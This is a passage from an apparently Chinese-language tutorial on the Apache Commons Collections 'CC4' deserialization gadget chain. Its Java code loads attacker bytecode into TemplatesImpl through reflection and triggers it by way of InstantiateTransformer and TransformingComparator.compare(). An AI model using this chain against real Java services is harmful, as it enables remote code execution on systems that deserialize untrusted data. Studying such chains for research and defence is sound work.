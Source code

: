 ```java
public class CC4 {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());
 		templates.newTransformer();     
    }
    public static void setfieldvalue(Object object, String fieldname, Object value) throws Exception
    {
        Field field = object.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(object,value);
    }
}
```

这里写过的`setfieldvalue`函数后面就不再重复贴上来了

### TransformingComparator.compare()调用transformer()

然后往前找，`TransformingComparator.compare()`调用`transformer()`

![image-20250928145422184](Commons-Collections%E7%AF%8705-CC4%E9%93%BE/image-20250928145422184.png)

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());

       InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        TransformingComparator transformingComparator = new TransformingComparator(instantiateTransformer,null);
        transformingComparator.compare(TrAXFilter.class,TrAXFilter.class);
```
